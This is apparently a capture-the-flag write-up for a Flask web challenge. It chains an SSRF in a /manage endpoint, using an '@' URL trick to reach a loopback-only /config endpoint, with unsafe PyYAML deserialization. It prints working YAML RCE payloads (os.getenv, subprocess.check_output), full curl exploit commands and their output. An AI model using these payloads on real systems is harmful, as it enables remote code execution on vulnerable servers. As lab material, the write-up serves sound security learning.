 # Solution

The web app gives us three endpoints:
- `/docs` (source is revealed)
- `/manage` (UI management that issues HTTP requests)
- `/config` (Configuration UI only allowed from loopback)

The source reveals that RCE is present via YAML deserialization attack in `config` function under `/config` endpoint:
```python
...
ip = IPv4Address(request.remote_addr)
if not ip.is_loopback:
	flash("Configuration is available only from the same host for your security")
	return redirect(url_for('index'))

if request.method == "POST":
	if "config" in request.values:
		config = dict(**yaml.load(request.values["config"], Loader=yaml.Loader))
...
```

But the endpoint is also not reachable if the IP is not from localhost. Luckily, we have the `/manage` endpoint which issues HTTP requests. Let's see if we can abuse it to issue requests from that endpoint back to the `/config` endpoint:
```python
@app.route("/manage", methods=["GET", "POST"])
def manage():
	global app_config
	response_out = ""
	if request.method == "POST":
		try:
			response = requests.request(
				request.values["method"],
				url="http://" + app_config.device_host + request.values["url"],
				data=request.values["body"].encode(),
				headers={'Content-Type': 'application/x-www-form-urlencoded'},
				timeout=5)
		...
```

At first glance, it seems that we cannot do anything since the `app_config.device_host` is used to specify the hostname, but there is a well known bypass for this by using an `@` sign, making the `app_config.device_host` considered as credentials for basic authentication and, luckily, our input comes right after `app_config.device_host` which is not terminated to represent it as the authority part of the URL.

Therefore, to fully exploit this web app, we must craft an RCE payload:
```json
{"orchestrator_id": !!python/object/apply:os.getenv [FLAG]}
```

Then issue the request to `/config` via `/manage`:
```sh
$ curl -sS http://localhost:8080/manage -d 'method=POST&url=%40127.0.0.1%3A8080%2Fconfig&body=config%3D{"orchestrator_id": !!python/object/apply:os.getenv [FLAG]}' | grep ibctf
    &lt;p name=&#34;config_out&#34;&gt;{&amp;#39;orchestrator_id&amp;#39;: &amp;#39;ibctf{st1ll_H4Z-th3-s4m3-py1ssuezz}&amp;#39;}&lt;/p&gt;
```

Observe how we specify the URL: `@127.0.0.1:8080/config`.

You can also leverage full RCE with `subprocess.check_output`:

```sh
curl -sS http://localhost:8080/manage -d 'method=POST&url=%40127.0.0.1%3A8080%2Fconfig&body=config%3D{"orchestrator_id": !!python/object/apply:subprocess.check_output [!!str "id"]}'

...
&lt;textarea name=&#34;config&#34; id=&#34;config&#34;&gt;{&amp;#34;orchestrator_id&amp;#34;: !!python/object/apply:subprocess.check_output [!!str &amp;#34;id&amp;#34;]}&lt;/textarea&gt;
    &lt;label for=&#34;config_out&#34;&gt;Current config&lt;/label&gt;
    &lt;input type=&#34;submit&#34; value=&#34;Save&#34;&gt;
    &lt;p name=&#34;config_out&#34;&gt;{&amp;#39;orchestrator_id&amp;#39;: b&amp;#39;uid=999(ctf) gid=999(ctf) groups=999(ctf)\n&amp;#39;}&lt;/p&gt;
...
```
